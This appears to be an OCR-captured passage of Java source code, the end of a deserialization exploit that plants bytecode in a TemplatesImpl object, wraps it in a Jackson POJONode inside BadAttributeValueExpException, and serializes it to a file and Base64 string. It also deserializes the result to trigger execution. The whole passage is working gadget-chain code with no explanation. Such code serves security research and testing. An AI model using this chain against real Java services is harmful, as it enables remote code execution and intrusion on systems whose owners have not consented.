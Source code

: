 ```bash
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "fakes0u1");
        setFieldValue(templatesImpl, "_tfactory", null);
        POJONode jsonNodes = new POJONode(templatesImpl);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        FileOutputStream fout=new FileOutputStream("1.ser");
        fout.write(barr.toByteArray());
        fout.close();
        FileInputStream fileInputStream = new FileInputStream("1.ser");
        System.out.println(serial(exp));
        deserial(serial(exp));
    }

    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        return base64String;

    }

    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    private static void Base64Encode(ByteArrayOutputStream bs){
        byte[] encode = Base64.getEncoder().encode(bs.toByteArray());
        String s = new String(encode);
        System.out.println(s);
        System.out.println(s.length());
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}
```
